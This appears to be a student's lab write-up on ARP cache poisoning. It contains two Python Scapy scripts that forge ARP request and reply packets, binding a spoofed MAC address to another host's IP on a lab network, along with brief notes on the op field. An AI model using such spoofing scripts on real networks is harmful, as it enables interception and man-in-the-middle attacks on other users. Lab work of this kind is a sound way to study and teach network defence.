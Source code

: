 #### **With ether**:

>```py
>#!/usr/bin/python3
>from scapy.all import *
>E = Ether(src = "02:42:0a:09:00:69",
>	  dst = "02:42:0a:09:00:05")
>A = ARP(hwsrc = "02:42:0a:09:00:69",
>   psrc = "10.9.0.6",
>   hwdst = "02:42:0a:09:00:05",
>   pdst = "10.9.0.5")
>pkt = E/A
>pkt.show()
>sendp(pkt)
>```
>
>
>
>![image-20220914111811472](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220914111811472.png)
>
>
>
>![image-20220914111848509](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220914111848509.png)
>
>on deleting:
>
>![image-20220914111927599](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220914111927599.png)

- **`op` is used to specify if an arp reply or request is to be sent. It defaults to 1**
- **In the second case, reciever never finds actual IP of attacker since the source is set as attacker's MAC addr.**

---



#### Task 1 B

**Scenario 1**

>```py
>#!/usr/bin/python3
>from scapy.all import *
> 
>E = Ether(dst = '02:42:0a:09:00:05', 
>	src = '02:42:0a:09:00:69')
> 
>A = ARP(op=2,
>	hwsrc='02:42:0a:09:00:69',
>	psrc='10.9.0.6',
>	hwdst='02:42:0a:09:00:05', 
>	pdst='10.9.0.5')
> 
>pkt = E/A
>pkt.show()
>sendp(pkt)
>
>```
>
>**Executing** `task11A.py`:
>
>![image-20220914114118435](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220914114118435.png)